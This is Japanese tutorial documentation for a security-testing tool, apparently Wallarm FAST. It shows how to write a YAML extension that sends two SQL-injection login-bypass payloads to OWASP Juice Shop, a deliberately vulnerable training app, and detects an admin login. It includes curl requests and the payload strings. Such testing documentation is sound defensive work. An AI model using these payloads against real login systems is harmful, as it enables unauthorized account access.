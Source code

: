 ```markdown
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project

#  変更を加えない拡張機能の作成

本書で説明する拡張機能は、ペイロードを注入するために入力された基線リクエストを変更しません。代わりに、基線リクエストで指定されたホストに対して、あらかじめ定義された2つのテストリクエストが送信されます。これらのテストリクエストは、[“OWASP Juice Shop”][link-juice-shop]ターゲットアプリケーションのログインフォームに存在するSQLi脆弱性の悪用につながる可能性のあるペイロードを含みます。

##  準備

FAST拡張機能の作成前に、ターゲットアプリケーションの動作を[検証する][link-app-examination]ことを強く推奨します。

##  拡張機能の構築

拡張機能の説明を行うファイル（例：`non-mod-extension.yaml`）を作成し、必要なセクションで内容を埋めてください：

1.  [**`meta-info`セクション**][link-meta-info]

    拡張機能が検出を試みる脆弱性の説明を用意してください。
    
    * 脆弱性ヘッダー: `OWASP Juice Shop SQLi (non-mod extension)`
    * 脆弱性の説明: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * 脆弱性タイプ: SQL injection
    * 脆弱性の脅威レベル: high
    
    対応する`meta-info`セクションは以下のようになります：
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`send`セクション，[Send phase][doc-send-phase]**

    ターゲットアプリケーションのSQLi脆弱性を悪用するため、任意の`password`値とともに、`email`パラメータ値として送信されるべき2つのペイロードがあります：
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    各テストリクエストは、以下を含むように作成できます：
    
    * 上記のいずれかの値を持つ`email`パラメータ
    * 任意の値を持つ`password`パラメータ

    これらのリクエストのうちの1つだけを使用して、例として挙げたターゲットアプリケーション（OWASP Juice Shop）をテストするだけで十分です。
    
    ただし、実際のアプリケーションのセキュリティテストを実施する際には、いくつかの事前に作成されたテストリクエストのセットが有用です。なぜなら、アプリケーションのアップデートや改善により、あるリクエストが脆弱性を悪用できなくなった場合でも、他のペイロードを使用したリクエストが脆弱性を悪用できる可能性があるためです。

    上記リストの最初のペイロードを使用したリクエストは、以下のようになります：
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    2番目のリクエストも同様の形式です：
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    これら2つのテストリクエストの説明を含む`send`セクションを追加してください：
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "Hostヘッダーに関する注意"
        これらのリクエストでは、特定のSQLi脆弱性の悪用に影響を与えないため、`Host`ヘッダーは省略可能です。FASTノードは、入力された基線リクエストから抽出された`Host`ヘッダーを自動的に付加します。
        
        [こちら][link-send-headers]を参照し、Send phaseがリクエストヘッダーをどのように処理するかを確認してください。

3.  **`detect`セクション，[Detect phase][doc-detect-phase]**
    
    以下の条件は、管理者権限のユーザー認証が成功したことを示します：
    
    * レスポンスボディ内に、`1`の値を持つショッピングカート識別子パラメータが存在すること。パラメータはJSON形式で、以下のようになります：
    
        ```
        "bid":1
        ```
    
    * レスポンスボディ内に、`admin@juice-sh.op`の値を持つユーザーのメールアドレスパラメータが存在すること。パラメータはJSON形式で、以下のようになります：
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    上記条件に基づいて攻撃が成功したかどうかを確認する`detect`セクションを追加してください。
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "特殊記号のエスケープ"
    文字列内の特殊記号をエスケープすることを忘れないでください。

##  拡張機能のファイル

これで`non-mod-extension.yaml`ファイルには、拡張機能の動作に必要な全セクションが揃っています。ファイルの内容は以下の通りです：

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  拡張機能の使用

作成した拡張機能の使用方法についての詳細は、[こちらのドキュメント][link-using-extension]を参照してください。
```